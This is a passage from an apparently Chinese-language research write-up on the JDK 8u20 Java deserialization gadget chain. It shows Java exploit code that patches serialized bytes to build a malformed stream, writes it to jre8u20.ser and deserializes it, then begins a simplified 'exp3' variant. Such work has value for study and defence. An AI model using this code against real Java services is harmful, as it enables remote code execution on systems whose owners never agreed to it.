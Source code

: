 ```java
        //         //原因是如果不设置 SC_WRITE_METHOD 标志的话 defaultDataEd = true，导致 BeanContextSupport -> deserialize(ois, bcmListeners = new ArrayList(1))
        // -> count = ois.readInt(); 报错，无法完成整个反序列化流程
        // 没有 SC_WRITE_METHOD 标记，认为这个反序列流到此就结束了
        // 标记： 7375 6e2e 7265 666c 6563 --> sun.reflect...
        for(int i = 0; i < bytes.length; i++){
            if(bytes[i] == 115 && bytes[i+1] == 117 && bytes[i+2] == 110 && bytes[i+3] == 46 &&
                    bytes[i + 4] == 114 && bytes[i+5] == 101 && bytes[i+6] == 102 && bytes[i+7] == 108 ){
                System.out.println("[+] Modify sun.reflect.annotation.AnnotationInvocationHandler -> classDescFlags from SC_SERIALIZABLE to " +
                        "SC_SERIALIZABLE | SC_WRITE_METHOD");
                i = i + 58;
                bytes[i] = 3;
                break;
            }
        }

        //加回之前删除的 TC_BLOCKDATA，表明 HashSet 到此结束
        System.out.println("[+] Add TC_BLOCKDATA at end");
        bytes = Util.addAtLast(bytes, (byte) 0x78);


        FileOutputStream fous = new FileOutputStream("jre8u20.ser");
        fous.write(bytes);

        //反序列化
        FileInputStream fis = new FileInputStream("jre8u20.ser");
        ObjectInputStream ois = new ObjectInputStream(fis);
        ois.readObject();
        ois.close();
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

## exp3
这个exp3来自沈沉舟师傅，也是通过正常反序列化后对字节码进行细微地调整来构造畸形的JDK8u20链，是exp2的简化版，修改的字节码更少，具体原理可以参见[这里](https://mp.weixin.qq.com/s/3bJ668GVb39nT0NDVD-3IA)，这里根据exp2和原理重写了下exp:

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.beans.beancontext.BeanContextSupport;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.*;


```